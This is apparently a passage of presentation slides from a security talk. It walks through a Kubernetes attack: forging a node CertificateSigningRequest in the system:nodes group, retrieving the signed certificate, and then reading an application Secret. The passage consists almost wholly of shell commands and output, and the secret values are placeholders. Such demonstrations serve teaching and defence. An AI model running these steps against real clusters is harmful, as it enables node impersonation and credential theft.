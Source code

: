 [.code-highlight: all]
[.code-highlight: 1-14]
[.code-highlight: 15]

[.column]
```yaml
  root@hckd# cat <<EOF | khack create -f -
  apiVersion: certificates.k8s.io/v1beta1
  kind: CertificateSigningRequest
  metadata:
    name: node-csr-$(date +%s)
  spec:
    groups:
    - system:nodes
    request: $(cat skynet.csr | base64 | tr -d '\n')
    usages:
    - digital signature
    - key encipherment
    - client auth
  EOF
# certifica.../node-csr-1637737310 created
```

[.column]
[.code-highlight: none]
[.code-highlight: 1]
[.code-highlight: 1-5]
[.code-highlight: 6-11]

```coffeescript
root@hckd# khack get csr                  \ 
      node-csr-1637737310                 \
      -o jsonpath='{.status.certificate}' \
      | base64 -d >                       \
      skynet.crt          

root@hckd# cat skynet.crt
-----BEGIN CERTIFICATE-----
MIIDxjCCAi6gAwIBAgIRAItGFVuOH+VSZ6xWdHv5lC4wDQYJK
oZIhvcNAQELBQAwLzEtMCsGA1UEAxMkMmMxYmZiMGItNGVmYi
00ZmRmLWE5NGUtNjkxZDhmZDhhYThkMB4XDTIxMTEyNDA2MjM
...
```
---

## Get Secret value
### (For real this time)
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: all]
[.code-highlight: 4-5]


```yaml
  root@hckd# khack-final get secret sensitive-app-secrets -o yaml
  apiVersion: v1
  data:
#   APP_PASSWORD: dGFyZ2V0X3Bhc3N3b3Jk
#   APP_USERNAME: dGFyZ2V0X3VzZXJuYW1l
  kind: Secret
  metadata:
    annotations:
```
